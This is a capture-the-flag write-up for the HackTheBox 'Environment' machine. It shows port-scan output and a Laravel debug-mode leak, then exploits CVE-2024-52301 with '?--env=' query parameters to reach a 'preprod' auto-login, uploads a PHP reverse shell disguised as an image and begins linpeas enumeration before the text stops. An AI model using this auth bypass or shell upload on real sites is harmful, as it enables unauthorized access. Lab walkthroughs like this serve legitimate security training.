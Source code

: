* * *

### LAB: Environment
### CTF: HACKTHEBOX

* * *

- Rustscan's output-:

```bash
❯ rustscan -a environment.htb -- -Pn -sC -sV
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

[~] The config file is expected to be at "/home/sensei/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.11.67:22
Open 10.10.11.67:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-13 15:49 WAT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 15:49
Completed NSE at 15:49, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 15:49
Completed NSE at 15:49, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 15:49
Completed NSE at 15:49, 0.00s elapsed
Initiating Connect Scan at 15:49
Scanning environment.htb (10.10.11.67) [2 ports]
Discovered open port 22/tcp on 10.10.11.67
Discovered open port 80/tcp on 10.10.11.67
Completed Connect Scan at 15:49, 2.25s elapsed (2 total ports)
Initiating Service scan at 15:49
Scanning 2 services on environment.htb (10.10.11.67)
Completed Service scan at 15:49, 6.64s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.11.67.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 15:49
Completed NSE at 15:49, 17.51s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 15:49
Completed NSE at 15:49, 2.92s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 15:49
Completed NSE at 15:49, 0.00s elapsed
Nmap scan report for environment.htb (10.10.11.67)
Host is up, received user-set (0.25s latency).
Scanned at 2025-05-13 15:49:15 WAT for 30s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 5c:02:33:95:ef:44:e2:80:cd:3a:96:02:23:f1:92:64 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGrihP7aP61ww7KrHUutuC/GKOyHifRmeM070LMF7b6vguneFJ3dokS/UwZxcp+H82U2LL+patf3wEpLZz1oZdQ=
|   256 1f:3d:c2:19:55:28:a1:77:59:51:48:10:c4:4b:74:ab (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ7xeTjQWBwI6WERkd6C7qIKOCnXxGGtesEDTnFtL2f2
80/tcp open  http    syn-ack nginx 1.22.1
|_http-title: Save the Environment | environment.htb
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
|_http-server-header: nginx/1.22.1
| http-methods: 
|_  Supported Methods: GET HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
- Ffuf's output

![image](https://github.com/user-attachments/assets/8ca19e57-5173-4697-9df8-d10293e28e5c)


- I identified Laravel's version because debug mode is enabled.I made a `GET` request to the directory upload and encountered an error which exposed the php and laravel build

![image](https://github.com/user-attachments/assets/be5c2345-a912-4073-9df4-2b90c4049ad4)

- I googled for CVES related to this version and got [one](https://github.com/Nyamort/CVE-2024-52301).Laravel is vulnerable to argument injection which occurs if the `register_argc_argv` option is enabled in the php.ini.This setting loads command-line arguments and query params into `$_SERVER['argv']`.The vulnerability allows us to set the environment that the laravel web app will load which signifies that we can load old environments that can be vulnerable.

POC-:

```<url>/?env--=production
```

- Our next task is to find pre-existing enviroment before `production`.I tried to trigger more errors to discover more parts of the source code.I tried to login with no values in the params and I got another error with more exposed source code.

![image](https://github.com/user-attachments/assets/d50b1984-ea85-4fa2-97a1-171349953598)

- The code exposed reveals a pre-existing environment that allows us to login automatically.

```php
      $keep_loggedin = False;
    } elseif ($remember == 'True') {
        $keep_loggedin = True;
    }
 
    if($keep_loggedin !== False) {
    // TODO: Keep user logged in if he selects "Remember Me?"
    }
 
    if(App::environment() == "preprod") { //QOL: login directly as me in dev/local/preprod envs
        $request->session()->regenerate();
        $request->session()->put('user_id', 1);
        return redirect('/management/dashboard');
    }
 
    $user = User::where('email', $email)->first();
```

- Poc-:

```
<url>/login?--env=prepod
```

- Request should be submitted with empty params aside `_token` and remember should be set to false.

![image](https://github.com/user-attachments/assets/db2f93c5-7602-49c6-b3b7-8fc5d440c8f5)

- Portal accessed-:

![image](https://github.com/user-attachments/assets/c5c9f813-43ff-4b4e-ac4a-b068040ae769)


- We can upload a profile picture,let's try to upload a php reverse shell within a legitimate image and an extension `.php.`.

![image](https://github.com/user-attachments/assets/22c6cb5b-67b5-4d80-91ab-aa2229952dd6)


- Shell

![image](https://github.com/user-attachments/assets/189d1a4c-540f-4e14-abe3-defab693940d)

- Reverse shell-:

![image](https://github.com/user-attachments/assets/5a5c1c75-a170-4d2c-bb8f-c0361168b6c3)

- I ran linpeas and discovered a directory where gpg keys are stored.













